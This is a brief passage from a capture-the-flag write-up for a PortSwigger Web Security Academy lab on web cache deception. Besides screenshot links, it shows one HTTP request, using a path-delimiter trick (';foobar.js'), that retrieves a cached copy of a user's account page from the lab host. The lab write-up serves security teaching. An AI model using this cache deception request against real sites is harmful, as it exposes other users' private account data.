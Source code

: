 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-2/images/Pasted%20image%2020240810154047.png)

Finally, send the following request to retrieve the cached response:

```http
GET /my-account;foobar.js HTTP/2
Host: 0a2f00fa047523c9809db26c00c4003d.web-security-academy.net


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-2/images/Pasted%20image%2020240810155422.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-2/images/Pasted%20image%2020240810155433.png)
